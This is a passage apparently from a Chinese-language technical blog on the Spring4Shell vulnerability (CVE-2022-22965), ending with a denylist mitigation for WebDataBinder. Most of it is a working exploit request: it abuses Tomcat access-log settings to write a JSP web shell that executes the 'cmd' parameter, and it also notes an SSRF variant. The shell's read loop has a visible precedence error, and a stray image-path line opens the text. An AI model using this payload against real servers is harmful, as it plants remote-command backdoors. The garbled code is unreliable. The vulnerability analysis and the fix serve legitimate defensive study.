 ![](/assets/images/CVE-2022-22965/2022-04-27-20-48-21.png)

或者利用请求头来传递pattern的值：

* tomcat access log pattern: https://tomcat.apache.org/tomcat-8.0-doc/config/valve.html

```
GET /CVE_2022_22965_war/spring/get-user-info?password=password&user.name=enokiy&user.age=100&names[0]=aaaaaa&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=_3&class.module.classLoader.resources.context.parent.pipeline.first.checkExists=true&class.module.classLoader.resources.context.parent.pipeline.first.rotatable=true&class.module.classLoader.resources.context.parent.pipeline.first.prefix=test&class.module.classLoader.resources.context.parent.pipeline.first.buffered=false&class.module.classLoader.resources.context.parent.pipeline.first.directory=/XXXX/webapps/CVE_2022_22965_war/&class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7BCVE-Test-Poc%7Di HTTP/1.1
Host: 127.0.0.1:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
CVE-Test-Poc:<% java.io.InputStream in=Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();int a=-1;byte[] b=new byte[2048];out.print("<pre>");while(a=in.read(b)!=-1){out.println(new String(b));} out.print("</pre>"); %>
```

也可以利用class.module.classLoader.resources.context.configFile进行SSRF。

其他可利用的属性需要进一步查看各属性的作用。

**需要注意的点是，修改上面的属性可能导致服务重启，因此如果是自己测试无所谓，但是千万不要在现网环境中直接利用这些poc，除非你很清楚并且能承担得起利用导致的后果！！**

## 漏洞修复&规避

新版本的修复方式中，主要有两个点来阻止变量覆盖：

1. 通过全局设置来禁用对特定字段的disallowFields绑定WebDataBinder：

```java
@ControllerAdvice
@Order(Ordered.LOWEST_PRECEDENCE)
public class BinderControllerAdvice {
    @InitBinder
    public void setAllowedFields(WebDataBinder dataBinder) {
         String[] denylist = new String[]{"class.*", "Class.*", "*.class.*", "*.Class.*"};
         dataBinder.setDisallowedFields(denylist);
    }
}
```
